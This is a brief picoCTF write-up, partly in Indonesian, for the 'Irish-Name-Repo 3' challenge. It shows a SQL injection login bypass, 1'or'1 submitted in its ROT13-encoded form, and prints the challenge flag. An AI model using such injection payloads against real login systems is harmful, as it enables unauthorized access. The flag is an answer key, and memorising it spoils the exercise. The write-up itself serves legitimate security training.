 <h1>Irish-Name-Repo 3</h1>
<pre>
There is a secure website running at <a href='https://jupiter.challenges.picoctf.org/problem/54253/'>(link)</a> or http://jupiter.challenges.picoctf.org:54253. Try to see if you can login as admin!
</pre>
<h3>Description</h3>
<p>Ganti form value name debug=1 and password=1'or'1, yang akan muncul error</p>
<pre>
password: 1'or'1
SQL query: SELECT * FROM admin where password = '1'be'1'
</pre>
<p>Jadi or switch jeadi be, coba inject dengan query sebaliknya 1'be'1</p>
<pre>
password: 1'be'1
SQL query: SELECT * FROM admin where password = '1'or'1'
Logged in!
Your flag is: picoCTF{3v3n_m0r3_SQL_7f5767f6}
</pre>
<h3>Flag</h3>
<pre>
picoCTF{3v3n_m0r3_SQL_7f5767f6}
</pre>
